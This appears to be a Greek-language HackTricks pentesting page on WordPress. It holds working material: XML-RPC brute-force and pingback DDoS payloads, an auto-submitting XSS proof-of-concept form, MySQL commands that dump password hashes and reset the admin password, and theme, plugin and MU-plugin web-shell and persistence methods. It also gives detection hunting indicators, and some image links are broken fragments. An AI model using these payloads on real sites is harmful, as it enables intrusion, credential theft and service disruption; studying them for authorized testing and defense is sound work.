

# WordPress

{{#include ../../banners/hacktricks-training.md}}

## Βασικές πληροφορίες

- Τα **μεταφορτωμένα** αρχεία αποθηκεύονται στο: `http://10.10.10.10/wp-content/uploads/2018/08/a.txt`
- **Τα αρχεία των themes αποθηκεύονται στον φάκελο `/wp-content/themes/`.** Αν ένας διαχειριστής τροποποιήσει ένα PHP template για να αποκτήσει code execution, μπορεί να ζητηθεί απευθείας η αντίστοιχη διαδρομή του theme. Για παράδειγμα, το template `404.php` του theme Twenty Twelve είναι συνήθως προσβάσιμο στη διεύθυνση [**`/wp-content/themes/twentytwelve/404.php`**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php).

  - Σε μια εγκατάσταση που περιλαμβάνει και ενεργοποιεί theme με όνομα `default`, μια άλλη διαδρομή που μπορείτε να δοκιμάσετε είναι η **`/wp-content/themes/default/404.php`**.

- Το **`wp-config.php`** περιέχει τα διαπιστευτήρια της βάσης δεδομένων του WordPress. Ο χρήστης της βάσης δεδομένων που έχει ρυθμιστεί μπορεί να έχει αυξημένα προνόμια, αλλά δεν είναι απαραίτητα ο λογαριασμός `root` της βάσης δεδομένων.<sup>[[21]](#references)</sup>
- Προεπιλεγμένες διαδρομές σύνδεσης προς έλεγχο: _**/wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/**_

### **Κύρια αρχεία του WordPress**

- `index.php`
- Το `license.txt` περιέχει χρήσιμες πληροφορίες, όπως την έκδοση του WordPress που είναι εγκατεστημένη.
- Το `wp-activate.php` χρησιμοποιείται για τη διαδικασία ενεργοποίησης μέσω email κατά τη ρύθμιση ενός νέου ιστότοπου WordPress.
- Φάκελοι σύνδεσης (ενδέχεται να έχουν μετονομαστεί για να αποκρυφτούν):
  - `/wp-admin/login.php`
  - `/wp-admin/wp-login.php`
  - `/login.php`
  - `/wp-login.php`
- Το `xmlrpc.php` εκθέτει το παλαιότερο περιβάλλον XML-RPC μέσω HTTP. Οι σύγχρονες ενσωματώσεις χρησιμοποιούν γενικά το WordPress REST API, αλλά το XML-RPC εξακολουθεί να υπάρχει και μπορεί να είναι ενεργοποιημένο.<sup>[[22]](#references)</sup>
- Ο φάκελος `wp-content` είναι ο κύριος κατάλογος όπου αποθηκεύονται τα plugins και τα themes.
- Ο φάκελος `wp-content/uploads/` είναι ο προεπιλεγμένος κατάλογος για τα μεταφορτωμένα πολυμέσα, αν και οι ρυθμίσεις και τα plugins μπορούν να αλλάξουν την οργάνωσή του.
- Ο φάκελος `wp-includes/` περιέχει τις βασικές βιβλιοθήκες και τα assets του WordPress· δεν πρέπει να θεωρείται κατάλογος περιεχομένου χρηστών.
- Από το WordPress 5.5, ο πυρήνας εκθέτει ένα ευρετήριο XML sitemap στο `wp-sitemap.xml` για δημόσιες αναρτήσεις και άλλο περιεχόμενο που είναι δημόσια προσβάσιμο μέσω ερωτημάτων.<sup>[[23]](#references)</sup>

**Post exploitation**

- Το αρχείο `wp-config.php` περιέχει πληροφορίες που χρειάζεται το WordPress για να συνδεθεί στη βάση δεδομένων, όπως το όνομα της βάσης δεδομένων, τον host, το όνομα χρήστη και τον κωδικό πρόσβασης, καθώς και τα authentication keys και salts και το πρόθεμα των πινάκων της βάσης δεδομένων. Μπορεί επίσης να ενεργοποιήσει ρυθμίσεις debugging, επομένως η αποκάλυψη αυτού του αρχείου είναι ιδιαίτερα ευαίσθητη.<sup>[[21]](#references)</sup>

### Ρόλοι χρηστών

- **Διαχειριστής**
- **Συντάκτης**: Μπορεί να δημοσιεύει και να διαχειρίζεται τις δικές του αναρτήσεις, καθώς και αναρτήσεις άλλων χρηστών.
- **Συγγραφέας**: Μπορεί να δημοσιεύει και να διαχειρίζεται τις δικές του αναρτήσεις.
- **Συνεισφέρων**: Μπορεί να γράφει και να διαχειρίζεται τις δικές του αναρτήσεις, αλλά δεν μπορεί να τις δημοσιεύει.
- **Συνδρομητής**: Μπορεί να διαβάζει περιεχόμενο και να διαχειρίζεται το δικό του προφίλ.

Αυτοί είναι οι προεπιλεγμένοι ρόλοι· τα plugins και οι διαχειριστές μπορούν να τροποποιήσουν τις δυνατότητες, επομένως οι έλεγχοι εξουσιοδότησης πρέπει να εξετάζουν τις δυνατότητες αντί να θεωρούν ότι ένα όνομα ρόλου έχει σταθερή σημασία.<sup>[[24]](#references)</sup>

## **Παθητικό Enumeration**

### **Εύρεση της έκδοσης του WordPress**

Ελέγξτε αν μπορείτε να βρείτε τα αρχεία `/license.txt` ή `/readme.html`

Μέσα στον **source code** της σελίδας (παράδειγμα από [https://wordpress.org/support/article/pages/](https://wordpress.org/support/article/pages/)):

- grep

```bash
curl https://victim.com/ | grep 'content="WordPress'
```

- `meta name`

.png>)

- Αρχεία συνδέσμων CSS

.png>)

- Αρχεία JavaScript

.png>)

### Εύρεση πρόσθετων

```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```

### Εντοπισμός θεμάτων

```bash
curl -s -X GET https://wordpress.org/support/article/pages/ | grep -E 'wp-content/themes' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```

### Εξαγωγή εκδόσεων γενικά

```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep http | grep -E '\?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

```

## Ενεργή απαρίθμηση

### Πρόσθετα και Θέματα

Η παθητική επιθεώρηση δεν αποκαλύπτει απαραίτητα όλα τα εγκατεστημένα πρόσθετα ή θέματα. Για να διευρύνετε την κάλυψη, απαριθμήστε ενεργά υποψήφια ονόματα από κατάλληλες λίστες λέξεων χρησιμοποιώντας εργαλεία που τηρούν τα όρια του ρυθμού αιτημάτων της αξιολόγησης.

### Χρήστες

- **ID Brute:** Μπορείτε να βρείτε έγκυρους χρήστες από έναν ιστότοπο WordPress κάνοντας Brute Forcing στα ID χρηστών:

```bash
curl -s -I -X GET http://blog.example.com/?author=1
```

Αν η απόκριση είναι **200** ή **30X**, το ID είναι **έγκυρο**. Αν η απόκριση είναι **400**, το ID είναι **μη έγκυρο**.

- **wp-json:** Μπορείτε επίσης να δοκιμάσετε να λάβετε πληροφορίες για τους χρήστες υποβάλλοντας ερώτημα:

```bash
curl http://blog.example.com/wp-json/wp/v2/users
```

Ένα άλλο endpoint `/wp-json/` που μπορεί να αποκαλύψει κάποιες πληροφορίες για τους χρήστες είναι:

```bash
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```

Σημειώστε ότι αυτό το endpoint εμφανίζει μόνο χρήστες που έχουν κάνει μια ανάρτηση. **Θα παρέχονται πληροφορίες μόνο για τους χρήστες στους οποίους είναι ενεργοποιημένη αυτή η λειτουργία**.

Σημειώστε επίσης ότι το **/wp-json/wp/v2/pages** μπορεί να προκαλέσει leak διευθύνσεων IP.

- **Αρίθμηση ονομάτων χρήστη κατά τη σύνδεση**: Κατά τη σύνδεση στο **`/wp-login.php`**, το **μήνυμα** είναι **διαφορετικό**, ανάλογα με το αν υπάρχει το συγκεκριμένο **όνομα χρήστη**.

### XML-RPC

Αν είναι ενεργοποιημένο το `xmlrpc.php`, οι μέθοδοί του ενδέχεται να εκθέτουν επιφάνειες για password guessing και κατάχρηση pingback. Για παράδειγμα, το [wpxploit](https://github.com/relarizky/wpxploit) αυτοματοποιεί αρκετούς ελέγχους XML-RPC. Εφαρμόστε αυστηρά όρια ρυθμού και κάντε δοκιμές μόνο με εξουσιοδότηση.

Για να ελέγξετε αν είναι ενεργό, στείλτε αίτημα στο **`/xmlrpc.php`** και καλέστε αυτή τη μέθοδο:

**Έλεγχος**

```html
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```


**Brute force διαπιστευτηρίων**

Τα **`wp.getUserBlogs`**, **`wp.getCategories`** ή **`metaWeblog.getUsersBlogs`** είναι μερικές από τις μεθόδους που μπορούν να χρησιμοποιηθούν για brute-force διαπιστευτηρίων. Αν εντοπίσετε κάποια από αυτές, μπορείτε να στείλετε κάτι σαν:

```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

Το μήνυμα _"Incorrect username or password"_ μέσα σε απόκριση με κωδικό 200 θα πρέπει να εμφανίζεται αν τα διαπιστευτήρια δεν είναι έγκυρα.

 (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

.png>)

Με έγκυρα διαπιστευτήρια και επαρκή δικαιώματα, το `wp.uploadFile` μπορεί να ανεβάσει πολυμέσα. Μια επιτυχής απόκριση περιλαμβάνει τη διαδρομή που προέκυψε ([παράδειγμα αιτήματος](https://gist.github.com/georgestephanis/5681982)).

```html
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

Επίσης, υπάρχει ένας **γρηγορότερος τρόπος** για να κάνεις brute-force credentials χρησιμοποιώντας το **`system.multicall`**, καθώς μπορείς να δοκιμάσεις πολλά credentials στο ίδιο request:

<figure><figcaption></figcaption></figure>

**Bypass 2FA**

Αυτή η μέθοδος προορίζεται για προγράμματα και όχι για ανθρώπους και είναι παλιά, επομένως δεν υποστηρίζει 2FA. Άρα, αν έχεις έγκυρα creds, αλλά η κύρια είσοδος προστατεύεται από 2FA, **ίσως μπορέσεις να καταχραστείς το xmlrpc.php για να συνδεθείς με αυτά τα creds, παρακάμπτοντας το 2FA**. Σημείωσε ότι δεν θα μπορείς να εκτελέσεις όλες τις ενέργειες που μπορείς να κάνεις μέσω της κονσόλας, αλλά ίσως και πάλι να μπορέσεις να φτάσεις σε RCE, όπως εξηγεί ο Ippsec στο [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)

**DDoS ή port scanning**

Αν η μέθοδος **`pingback.ping`** είναι διαθέσιμη, ενδέχεται να κάνει τον WordPress server να ανακτήσει ένα URL HTTP(S) που έχει επιλέξει ο attacker. Ο πυρήνας χρησιμοποιεί επικύρωση URL με σκοπό να περιορίσει το SSRF, επομένως τα προσβάσιμα schemes, destinations, redirects και response signals διαφέρουν ανάλογα με την έκδοση και τη διαμόρφωση. Ιστορικά, αυτή η δυνατότητα έχει χρησιμοποιηθεί καταχρηστικά για reflected traffic και περιορισμένη διερεύνηση εσωτερικών δικτύων.<sup>[[25]](#references)</sup>

```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```



Μην αντιμετωπίζετε ένα μεμονωμένο `faultCode` ως οριστική απόδειξη ότι μια θύρα είναι ανοιχτή. Συγκρίνετε ελεγχόμενους προορισμούς με ανοιχτές και κλειστές θύρες και λάβετε υπόψη την επικύρωση URL, τα σφάλματα εφαρμογής, τα χρονικά όρια και τη συμπεριφορά ενδιάμεσων συστημάτων.

Ρίξτε μια ματιά στη χρήση του **`system.multicall`** στην προηγούμενη ενότητα για να μάθετε πώς να καταχραστείτε αυτή τη μέθοδο για να προκαλέσετε DDoS.

**DDoS**

```html
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>
```

.png>)

### Δοκιμές φόρτου του `wp-cron.php`

Αυτό το αρχείο βρίσκεται συνήθως στη ρίζα του WordPress ως **`/wp-cron.php`**. Το WordPress ελέγχει τα προγραμματισμένα συμβάντα που είναι προγραμματισμένα να εκτελεστούν κατά τη διάρκεια αιτημάτων σελίδων και μπορεί να ξεκινήσει ένα μη αποκλειστικό αίτημα σε αυτό το endpoint. Οι εργασίες που εκτελούνται εξαρτώνται από τα προγραμματισμένα hooks· τα επαναλαμβανόμενα αιτήματα δεν συνεπάγονται από μόνα τους βαρύ ερώτημα στη βάση δεδομένων, αλλά εργασίες με υψηλό κόστος ή ανεπαρκείς μηχανισμούς κλειδώματος μπορούν να δημιουργήσουν περιττό φόρτο. Κάντε αυτή τη δοκιμή μόνο σε ελεγχόμενο περιβάλλον, καθώς οι δοκιμές φόρτου μπορούν να επηρεάσουν τη διαθεσιμότητα.<sup>[[21]](#references)</sup>

Για ιστότοπους με υψηλή κίνηση ή ευαίσθητους σε καθυστερήσεις, οι διαχειριστές μπορούν να ορίσουν το `DISABLE_WP_CRON` και να εκτελούν τα προγραμματισμένα συμβάντα από έναν system scheduler σε ελεγχόμενα διαστήματα.<sup>[[21]](#references)</sup>

### /wp-json/oembed/1.0/proxy - SSRF

Σε εκδόσεις/διαμορφώσεις όπου το route του oEmbed proxy είναι προσβάσιμο στον χρήστη που ελέγχεται, δοκιμάστε το `https://wordpress-site.example/wp-json/oembed/1.0/proxy?url=https://<collaborator-host>/`. Στις σύγχρονες εκδόσεις, ο πυρήνας δρομολογεί την ανάκτηση μέσω της `wp_safe_remote_get()`, η οποία επικυρώνει το URL και τις ανακατευθύνσεις για να περιορίσει το SSRF· ο έλεγχος ταυτότητας, το nonce, η allowlist και τα δικτυακά μέτρα ελέγχου επηρεάζουν επίσης την προσβασιμότητα.<sup>[[25]](#references)</sup>

Αυτή είναι η απόκριση όταν δεν λειτουργεί:

.png>)

## SSRF


Το [QuickPress](https://github.com/t0gu/quickpress) ελέγχει τη μέθοδο `pingback.ping` και τη διαδρομή `/wp-json/oembed/1.0/proxy` και, στη συνέχεια, δοκιμάζει τη συμπεριφορά των αντίστοιχων αιτημάτων από την πλευρά του server.<sup>[[26]](#references)</sup>

## Αυτόματα εργαλεία

```bash
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt # Enumerate and test authorized accounts; API quotas vary
# To test the admin account in an authorized assessment, add: -U admin
```

## Απόκτηση πρόσβασης αλλάζοντας ένα bit

Αυτή είναι μια ιδιαιτερότητα ειδικά για CTF και όχι μια γενική επίθεση σε WordPress. Στο [One-Bit-Man](https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man), ο επιτιθέμενος μπορούσε να αλλάξει ένα bit σε οποιοδήποτε αρχείο του WordPress. Η αλλαγή του σχετικού byte στο `/var/www/html/wp-includes/user.php` τροποποίησε τη συνθήκη ελέγχου του κωδικού πρόσβασης. Το ακριβές offset (`5389` σε αυτό το challenge) εξαρτάται από το build.

```php
    if ( ! wp_check_password( $password, $user->user_pass, $user->ID ) ) {
            return new WP_Error(
```

## **Panel RCE**

**Τροποποίηση ενός php από το χρησιμοποιούμενο theme (απαιτούνται διαπιστευτήρια admin)**

Εμφάνιση → Επεξεργαστής Theme → Πρότυπο 404 (στα δεξιά)

Αλλάξτε το περιεχόμενο σε ένα php shell:

.png>)

Ζητήστε το τροποποιημένο πρότυπο μέσω ενός route που το αποδίδει ή, όταν ο web server επιτρέπει την απευθείας εκτέλεση PHP σε καταλόγους theme, αποκτήστε απευθείας πρόσβαση σε αυτό. Σε αυτό το παράδειγμα, η διαδρομή είναι [http://10.11.1.234/wp-content/themes/twentytwelve/404.php](http://10.11.1.234/wp-content/themes/twentytwelve/404.php).

### MSF

Μπορείτε να χρησιμοποιήσετε:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

για να αποκτήσετε μια συνεδρία.

## Plugin RCE

### PHP plugin

Ίσως είναι δυνατή η μεταφόρτωση αρχείων .php ως plugin.\
Δημιουργήστε το php backdoor σας, για παράδειγμα:

.png>)

Στη συνέχεια, προσθέστε ένα νέο plugin:

.png>)

Μεταφορτώστε το plugin και πατήστε Install Now:

.png>)

Κάντε κλικ στο **Proceed**:

.png>)

Πιθανότατα δεν θα συμβεί τίποτα εμφανώς, αλλά αν μεταβείτε στο Media, θα δείτε το shell που μεταφορτώσατε:

.png>)

Αποκτήστε πρόσβαση σε αυτό και θα δείτε το URL για την εκτέλεση του reverse shell:

.png>)

### Μεταφόρτωση και ενεργοποίηση κακόβουλου plugin

Αυτή η μέθοδος περιλαμβάνει την εγκατάσταση ενός κακόβουλου plugin που είναι γνωστό ότι έχει ευπάθεια, η οποία μπορεί να αξιοποιηθεί για την απόκτηση web shell. Η διαδικασία πραγματοποιείται μέσω του WordPress dashboard ως εξής:

1. **Απόκτηση plugin**: Το plugin λαμβάνεται από μια πηγή όπως το Exploit DB, για παράδειγμα [**εδώ**](https://www.exploit-db.com/exploits/36374).
2. **Εγκατάσταση plugin**:
   - Μεταβείτε στο WordPress dashboard και έπειτα στο `Dashboard > Plugins > Upload Plugin`.
   - Μεταφορτώστε το zip αρχείο του plugin που κατεβάσατε.
3. **Ενεργοποίηση plugin**: Αφού εγκατασταθεί επιτυχώς το plugin, πρέπει να ενεργοποιηθεί μέσω του dashboard.
4. **Εκμετάλλευση**:
   - Με εγκατεστημένο και ενεργοποιημένο το plugin "reflex-gallery", μπορείτε να το εκμεταλλευτείτε, καθώς είναι γνωστό ότι έχει ευπάθεια.
   - Το Metasploit framework διαθέτει exploit για αυτή την ευπάθεια. Φορτώνοντας το κατάλληλο module και εκτελώντας συγκεκριμένες εντολές, μπορεί να δημιουργηθεί μια συνεδρία meterpreter, παρέχοντας μη εξουσιοδοτημένη πρόσβαση στον ιστότοπο.
   - Σημειώνεται ότι αυτή είναι μόνο μία από τις πολλές μεθόδους εκμετάλλευσης ενός WordPress ιστότοπου.

Το περιεχόμενο περιλαμβάνει οπτικά βοηθήματα που απεικονίζουν τα βήματα εγκατάστασης και ενεργοποίησης του plugin στο WordPress dashboard. Ωστόσο, είναι σημαντικό να σημειωθεί ότι η εκμετάλλευση ευπαθειών με αυτόν τον τρόπο είναι παράνομη και ανήθικη χωρίς τη σχετική εξουσιοδότηση. Αυτές οι πληροφορίες πρέπει να χρησιμοποιούνται υπεύθυνα και μόνο σε νόμιμο πλαίσιο, όπως σε pentesting με ρητή άδεια.

**Για αναλυτικότερα βήματα, δείτε:** [**https://www.hackingarticles.in/wordpress-reverse-shell/**](https://www.hackingarticles.in/wordpress-reverse-shell/)

## Από XSS σε RCE

- Το [**WPXStrike**](https://github.com/nowak0x01/WPXStrike) είναι ένα script σχεδιασμένο για την κλιμάκωση του Cross-Site Scripting (XSS) σε Remote Code Execution (RCE) ή σε άλλες κρίσιμες επιπτώσεις στο WordPress. Οι τεκμηριωμένες τεχνικές του στοχεύουν τις εκδόσεις WordPress 4.x, 5.x και 6.x, αν και η εφαρμοσιμότητα εξαρτάται από την ακριβή έκδοση, τη διαμόρφωση και την τρέχουσα συμπεριφορά του browser:<sup>[[17]](#references)</sup>
  - _**Κλιμάκωση δικαιωμάτων:**_ Δημιουργεί έναν χρήστη στο WordPress.
  - _**(RCE) Μεταφόρτωση custom plugin (backdoor):**_ Μεταφορτώνει το custom plugin (backdoor) σας στο WordPress.
  - _**(RCE) Επεξεργασία ενσωματωμένου plugin:**_ Επεξεργάζεται ένα ενσωματωμένο plugin στο WordPress.
  - _**(RCE) Επεξεργασία ενσωματωμένου theme:**_ Επεξεργάζεται ένα ενσωματωμένο theme στο WordPress.
  - _**(Custom) Custom exploits:**_ Custom exploits για WordPress plugins/themes τρίτων.

### Διαφορές στην ανάλυση του core login → DOM clobbering → RCE (XSS2Shell)

Το WordPress core πριν από τα security backports του Αυγούστου 2026 (διορθώθηκε στην έκδοση 7.0.3) περιείχε ένα pre-authentication XSS στη σελίδα σύνδεσης, το οποίο μπορούσε να συνδυαστεί με εκτέλεση PHP όταν ένας συνδεδεμένος administrator σε single-site εγκατάσταση επισκεπτόταν μια σελίδα που ελεγχόταν από επιτιθέμενο. Το ενδιαφέρον στοιχείο είναι ο συνδυασμός επιμέρους primitives με περιορισμένες δυνατότητες και όχι το ίδιο το CVE.<sup>[[19]](#references)[[20]](#references)</sup>

Η βασική αιτία ήταν μια **διαφορά στην ανάλυση**. Ένα μη έγκυρο username περνούσε από τις `sanitize_user()`/`wp_strip_all_tags()`· η PHP `strip_tags()` αντιμετώπιζε το `< area ...>` (κενό διάστημα μετά το `<`) ως κείμενο, αλλά το επόμενο πέρασμα από τη `wp_kses_post()` το ερμήνευε ως επιτρεπόμενο στοιχείο `<area>`. Έτσι, μια τιμή που αναμενόταν να είναι απλό κείμενο μετατρεπόταν σε DOM ελεγχόμενο από επιτιθέμενο στο `wp-login.php`.<sup>[[19]](#references)</sup>

Η αλυσίδα στην πλευρά του browser αναδεικνύει χρήσιμα σημεία για έλεγχο και συνδυάζει το [DOM clobbering](../../pentesting-web/xss-cross-site-scripting/dom-clobbering.md) με το [SOME](../../pentesting-web/xss-cross-site-scripting/some-same-origin-method-execution.md):<sup>[[19]](#references)</sup>

1. Εισαγάγετε στοιχεία με IDs/classes που αντιστοιχούν στους selectors του `user-profile.js`, το οποίο φορτώνεται καθολικά. Το αυτόματο κλικ στη δημιουργία κωδικού πρόσβασης ενεργοποιεί έναν χειριστή χρωματικού συνδυασμού· δύο ανύπαρκτα inputs αξιολογούνται ως `undefined`, οπότε ο έλεγχος ισότητας περνά.
2. Κάντε clobber την κατά τα άλλα μη ορισμένη global μεταβλητή `ajaxurl` με `<area id=ajaxurl href=...>`. Όταν το jQuery μετατρέψει το στοιχείο σε string, το `href` του γίνεται ο προορισμός AJAX.
3. Κατευθύνετε το αίτημα στο REST index της ίδιας προέλευσης με `_method=GET` και `_jsonp=<callback>`. Το jQuery αξιολογεί την απόκριση JavaScript· το `_envelope=1` μπορεί να διατηρήσει τον κωδικό κατάστασης 200 της εξωτερικής απόκρισης, όταν η εσωτερική REST απόκριση είναι σφάλμα.
4. Για την αποδεδειγμένη αλυσίδα RCE, ένα child window εκτελεί ένα περιορισμένο callback όπως το `window.opener.approve.click` στη φόρμα έγκρισης Application Password, στο same-origin opener του. Τα εγκεκριμένα διαπιστευτήρια αποστέλλονται στο `success_url` του επιτιθέμενου.
5. Χρησιμοποιήστε το Application Password του administrator για authenticated REST calls, δημοσιεύστε JavaScript χρησιμοποιώντας το `unfiltered_html`, μεταβείτε σε αυτήν ως administrator και, στη συνέχεια, χρησιμοποιήστε το cookie context του administrator για να αποκτήσετε το nonce μεταφόρτωσης plugin και να μεταφορτώσετε ένα ZIP που περιέχει ένα άμεσα προσβάσιμο αρχείο PHP. Αυτό το τελευταίο στάδιο εξακολουθεί να εξαρτάται από το αν το θύμα έχει τις σχετικές δυνατότητες administrator σε single-site εγκατάσταση.

Παρακάτω παρουσιάζεται μια ελάχιστη μορφή δοκιμής με εξουσιοδότηση για το pre-auth XSS primitive. Το κενό διάστημα αμέσως μετά από κάθε `<` είναι σημαντικό.<sup>[[19]](#references)</sup>

```html
<form id="poc" method="post" action="https://target.example/wp-login.php">
  <input type="hidden" name="log" value='< area id=ajaxurl href="/?rest_route=/&amp;_method=GET&amp;_jsonp=alert&amp;_envelope=1">< div id=color-picker class=reset-pass-submit>< button class="wp-generate-pw color-option">X'>
  <input type="hidden" name="pwd" value="x">
</form>
<script>document.getElementById('poc').submit()</script>
```

Χρήσιμοι δείκτες για hunting που προκύπτουν από την αλυσίδα είναι ύποπτες τιμές `log` που περιέχουν `<` και ακολουθούνται από κενό πριν από τα `area`, `div` ή `button`· REST αιτήματα που συνδυάζουν τα `_jsonp`, `_method` και `_envelope`· απρόσμενες επισκέψεις στο `authorize-application.php`· νέα Application Passwords· δημιουργία σελίδας μέσω REST και έπειτα μεταφόρτωση ZIP plugin· καθώς και απευθείας αιτήματα σε αρχείο PHP plugin που μόλις δημιουργήθηκε.<sup>[[19]](#references)</sup>

Το WordPress 7.0.3 έκανε escape την τιμή failed-login και ανακοίνωσε backports για κλάδους που εξακολουθούν να καλύπτονται από συντήρηση ασφαλείας. Επομένως, οι συμβολοσειρές έκδοσης από μόνες τους δεν επαρκούν: επαληθεύστε ότι είναι εγκατεστημένο το κατάλληλο security build/backport.<sup>[[19]](#references)[[20]](#references)</sup>

## Post Exploitation

Εξαγωγή usernames και passwords:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Αλλαγή κωδικού πρόσβασης διαχειριστή:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```

### Persistence μέσω MU-plugin και κρυφά backdoors μεταφόρτωσης REST

Το `WPMU_PLUGIN_DIR` δείχνει από προεπιλογή στο `wp-content/mu-plugins`. Το WordPress φορτώνει αυτόματα τα αρχεία PHP που βρίσκονται απευθείας σε αυτόν τον κατάλογο, πριν από τα κανονικά plugins. Δεν εμφανίζονται στην προεπιλεγμένη λίστα Plugins, δεν καταγράφονται ως συνηθισμένα ενεργά plugins, δεν λαμβάνουν κανονικές ειδοποιήσεις ενημερώσεων και δεν μπορούν να απενεργοποιηθούν μέσω της τυπικής διαδικασίας. Συνεπώς, ένας επιτιθέμενος με δυνατότητα εγγραφής αυθαίρετων αρχείων μπορεί να εξασφαλίσει persistence χαμηλής ορατότητας τοποθετώντας έναν PHP loader σε αυτόν τον κατάλογο. Ελέγξτε την ξεχωριστή προβολή **Must-Use** και το ίδιο το σύστημα αρχείων, αντί να βασίζεστε μόνο στον συνηθισμένο κατάλογο plugins.<sup>[[30]](#references)</sup>

Μια πρακτική προσέγγιση είναι ένα συμβατικό plugin ή installer μίας χρήσης που δημιουργεί το MU-plugin και έπειτα απενεργοποιείται και διαγράφεται. Σε μία υλοποίηση που ανακτήθηκε, είχε καταχωριστεί η δυσδιάκριτη διαδρομή REST `wp-sec/v1/upload`, γινόταν έλεγχος hardcoded διαπιστευτηρίων, γίνονταν δεκτές διαδρομές που επέλεγε ο επιτιθέμενος κάτω από τη ρίζα του WordPress και επιτρεπόταν ρητά η επέκταση `.php`. Επομένως, τα διαπιστευτήρια προστάτευαν ένα backdoor αυθαίρετης εγγραφής αρχείων αντί να το διορθώνουν: όποιος τα ανακτούσε μπορούσε να στείλει μέσω POST ένα web shell κάτω από τη ρίζα του web server και να αποκτήσει εκτέλεση κώδικα PHP.<sup>[[31]](#references)</sup>

Για μια εξουσιοδοτημένη αξιολόγηση ή απόκριση σε περιστατικό, καταγράψτε τόσο τον κατάλογο αυτόματης φόρτωσης όσο και το namespace REST και, στη συνέχεια, ελέγξτε κάθε callback μεταφόρτωσης για ελέγχους capabilities, κανονικοποιημένο περιορισμό διαδρομών, allowlist επεκτάσεων και αποθήκευση εκτός εκτελέσιμων καταλόγων του web server. Το WordPress φορτώνει αυτόματα μόνο αρχεία PHP που βρίσκονται απευθείας μέσα στον κατάλογο MU-plugin, αλλά ένας μικρός loader στο ανώτερο επίπεδο μπορεί να κάνει `require` ένα μεγαλύτερο payload από υποκατάλογο.<sup>[[30]](#references)[[31]](#references)</sup>

```bash
# The location can be changed in wp-config.php
grep -nE 'WPMU_PLUGIN_(DIR|URL)' wp-config.php
find wp-content/mu-plugins -maxdepth 2 -type f -printf '%TY-%Tm-%Td %TT %p\n' 2>/dev/null
wp plugin list --status=must-use --fields=name,status,version

# REST discovery and source review
curl -s https://target.example/wp-json/ | jq -r '.routes | keys[]' | grep -Ei 'upload|file|wp-sec'
grep -RniE 'register_rest_route|move_uploaded_file|file_put_contents|fopen|copy|ABSPATH|WPMU_PLUGIN_DIR' wp-content/mu-plugins
```

Τα artifacts με ισχυρή ένδειξη περιλαμβάνουν έναν νέο κατάλογο `mu-plugins`, REST registrations των οποίων το `permission_callback` συγκρίνει δεδομένα του request με ενσωματωμένα secrets, paths προορισμού που προκύπτουν από είσοδο του client, installers που αυτοδιαγράφονται και ένα επιτυχές `POST /wp-json/<namespace>/<route>` που ακολουθείται από request σε ένα νεοδημιουργημένο PHP αρχείο. Επίσης, ερευνήστε μικρά writable state files που περιέχουν ένα URL για payload ή έναν διακόπτη `off`: ένας ξεχωριστός controller μπορεί να αλλάξει το infrastructure ή να ενεργοποιήσει και να απενεργοποιήσει injected content χωρίς να αντικαταστήσει το κύριο plugin. Η απρόσμενη απενεργοποίηση ή αφαίρεση ενός cache plugin ή του `WP_CACHE` μπορεί να χρησιμοποιηθεί για να εξασφαλιστεί ότι το dynamic lure σερβίρεται με συνέπεια.<sup>[[31]](#references)</sup>

Για το στάδιο παράδοσης από την πλευρά του client που συνήθως συνδυάζεται με αυτόν τον συμβιβασμό, δείτε τα [Clipboard Hijacking / ClickFix](../../generic-methodologies-and-resources/phishing-methodology/clipboard-hijacking.md) και [PowerShell download-and-execute](../../windows-hardening/basic-powershell-for-pentesters/README.md#download--execute).

## Pentesting πρόσθετων WordPress

### Επιφάνεια επίθεσης

